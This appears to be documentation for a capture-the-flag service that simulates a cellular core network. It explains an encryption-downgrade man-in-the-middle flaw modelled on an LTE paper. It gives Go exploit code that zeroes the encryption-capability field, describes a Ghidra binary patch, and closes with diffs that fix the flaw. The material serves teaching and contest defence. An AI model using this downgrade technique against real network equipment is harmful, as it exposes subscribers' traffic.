




Service documentation
======================

# Vulnerabilities

## Man in the middle attack

*This vulnerability is inspired by security flaws in the LTE (4G) specification found by Rupprecht et al, in the paper: [Putting LTE Security Functions to the Test: A Framework to Evaluate Implementation Correctness](https://www.usenix.org/system/files/conference/woot16/woot16-paper-rupprecht.pdf)*

The registration protocol is vulnerable to a MitM (man in the middle) attack in the `RegistrationRequest` message sent from the UE:



The message is defined in the following `NASRegRequestMsg` struct:

```go
type EaMask uint8

type SecCapType struct {
	// 	1  |  2  | .. |  8
	// EA0 | EA1 | .. | EA7
	EaCap EaMask
	// 	1  |  2  | .. |  8
	// IA0 | IA1 | .. | IA7
	IaCap IaMask
}

type NASRegRequestMsg struct {
	MobileId MobileIdType
	SecCap   SecCapType
}
```
The `SecCap` field is used by the UE to announce which encryption and integrity algorithms it supports. When the core later on sends the `SecurityModeCommand` message, it chooses the highest version of encryption and integrity algorithm from the security capabilities it received in the `NASRegRequestMsg`. 

There is no integrity protection on messages before the `LocationUpdate` message. So when an attacker have control over the gNB serving the UE (by using the gNB binary or writing their own tool), they are able to change any fields of the messages forwarded to the Core and it will be accepted. Changing `SecCap.EaCap` to 0 will disable encryption and the flag can be extracted in clear text from the `LocationUpdate` message.


# Exploits

Both of the following exploits uses the same vulnerability, where `EaCap` is set to 0 by an attacker in the security capabilities announced by the UE.

## Re-use code

Message structs are encoded/decoded to/from bytes using the [gob](https://pkg.go.dev/encoding/gob) library in golang, which are then sent over TCP. An attacker needs to find which bytes that corresponds to the `EaCap` field. One way of doing this without digging through the raw bytes and the gob specification, is reusing code from the original service. This exploit parse bytes from the UE into a struct, change the `EaCap` field to 0 in the struct programmatically in go, encode and forwards the modified message to the Core. Full code for the exploit can be found in the [checker](https://github.com/enowars/enowars7-service-phreaking/blob/e1c7a0522583c0448f78c2c65a6c605be673de28/checker/src/internal/handler/handler.go#L257), but the essence of it given here:

```go
// Receive the raw bytes from UE socket
reply, err := io.Recv(ueConn)
if err != nil {
    return nil, err
}

// Decode NAS header
var gmm nas.GmmHeader
err = parser.DecodeMsg(reply, &gmm)
if err != nil {
    return nil, err
}

// Remove header and decode registration request 
var reg nas.NASRegRequestMsg
err = parser.DecodeMsg(gmm.Message, &reg)
if err != nil {
    return nil, errors.New("cannot decode")
}

// DISABLE EA
reg.SecCap.EaCap = 0

// Encode modified registration request 
msg, err := parser.EncodeMsg(&reg)
if err != nil {
    return nil, err
}

// Add NAS header to the registration request 
gmm.Message = msg

// Add NGAP header 
initUeMsg := ngap.InitUEMessageMsg{NasPdu: gmm, RanUeNgapId: 1}

// Send modified message to Core
err = io.SendNgapMsg(coreConn, ngap.InitUEMessage, &initUeMsg)
if err != nil {
    return nil, err
}
```

## Binary patching

The `gNB` binary can be patched into a exploit tool. 

In the source code of the binary, it creates a new `NASRegRequestMsg` struct and manually copy over the fields from the message to be forwarded:

```go
var reg nas.NASRegRequestMsg
err = parser.DecodeMsg(gmm.Message, &reg)
if err != nil {
	fmt.Printf("Error decoding: %#v\n", err)
	return
}

newreg := nas.NASRegRequestMsg{MobileId: reg.MobileId}
newreg.SecCap.EaCap = reg.SecCap.EaCap
newreg.SecCap.IaCap = reg.SecCap.IaCap

msg, err := parser.EncodeMsg(&newreg)
```

Opening the binary in [Ghidra](https://github.com/NationalSecurityAgency/ghidra) and looking through the assembly code, we can find the copying of fields (instructions at 0050519d and 005051a1 corresponds to setting `EaCap` for `newreg`):



Ghidra allows us to patch assembly instructions. Instead of moving the real value into param3 (actually RDX register), we can set RDX to zero by XOR'ing it with itself: 



This patch will hardcode EaCap to 0 for every forwarded registration request. A patched binary with a working exploit is provided here in the documentation folder as `gnb_patched`.

# Fix

To fix the vulnerability the core needs to apply integrity protection to the SecurityModeCommand message. The UE need to check the integrity of the message and confirm that the replayed security capabilities matches what it sent in the RegistrationRequest message.

A fixed version of the service can be found in the `fixed` branch.



Add MAC using integrity algorithm IA2 to security mode command message in the Core:

```diff
--- a/service/src/internal/core/handler.go
+++ b/service/src/internal/core/handler.go
@@ -393,7 +393,7 @@ func (amf *Amf) handleNASAuthResponse(c net.Conn, buf []byte, amfg *AmfGNB, ue *
        secModeCmd := nas.NASSecurityModeCommandMsg{EaAlg: ue.EaAlg,
                IaAlg: ue.IaAlg, ReplaySecCap: ue.SecCap,
        }
-       secModeMsg, mac, err := nas.BuildMessagePlain(&secModeCmd)
+       secModeMsg, mac, err := nas.BuildMessage(0, uint8(nas.IA2), &secModeCmd)
        if err != nil {
                return errDecode
        }
```

The UE checks if the security mode command is integrity protected using ANY integrity algorithm:

*Note: The checker simulates a Core network and will try to connect UE with null encryption, with a valid MAC - which is a feature to be supported by the service. Since a defending team might not know which integrity algorithm the checker uses for the MAC, checking for ANY algorithm might be needed. But can also be deducted by looking at the traffic coming to the service*.

```diff
--- a/service/src/cmd/ue/main.go
+++ b/service/src/cmd/ue/main.go
@@ -87,12 +87,23 @@ func handleConnection(logger *zap.Logger, c net.Conn) {
                                }
                                u.ToState(ue.Authentication)
                        case msgType == nas.NASSecurityModeCommand && u.InState(ue.Authentication):
-                               err := u.HandleNASSecurityModeCommand(c, msgbuf)
-                               if err != nil {
-                                       log.Errorf("Error NASSecurityModeCommand: %w", err)
-                                       return
+                               for i := 1; i <= 5; i++ {
+                                       if i == 5 {
+                                               log.Errorf("Security command not integrity protected")
+                                               return
+                                       }
+                                       err = crypto.CheckIntegrity(uint8(i), msgbuf, gmm.Mac)
+                                       if err != nil {
+                                       } else {
+                                               err := u.HandleNASSecurityModeCommand(c, msgbuf)
+                                               if err != nil {
+                                                       log.Errorf("Error NASSecurityModeCommand: %w", err)
+                                                       return
+                                               }
+                                               u.ToState(ue.SecurityMode)
+                                               break
+                                       }
                                }
-                               u.ToState(ue.SecurityMode)
                        case msgType == nas.PDUSessionEstAccept && u.InState(ue.SecurityMode):
                                err := u.HandlePDUSessionEstAccept(c, msgbuf)
                                if err != nil {
```

After the UE checks that the MAC is valid, it must also check that the replayed security capabilities from the Core match what the UE sent out with the registration request:

```diff
--- a/service/src/internal/ue/handler.go
+++ b/service/src/internal/ue/handler.go
@@ -8,6 +8,8 @@ import (
        "phreaking/internal/io"
        "phreaking/pkg/nas"
        "phreaking/pkg/parser"
+
+       "github.com/google/go-cmp/cmp"
 )

 var (
@@ -54,6 +56,10 @@ func (u *UE) HandleNASSecurityModeCommand(c net.Conn, msgbuf []byte) error {
                return errors.New("cannot decode")
        }

+       if !cmp.Equal(msg.ReplaySecCap, u.SecCap) {
+               return errors.New("replayed security capabilities does not match")
+       }
+
        u.EaAlg = msg.EaAlg
        u.IaAlg = msg.IaAlg
```
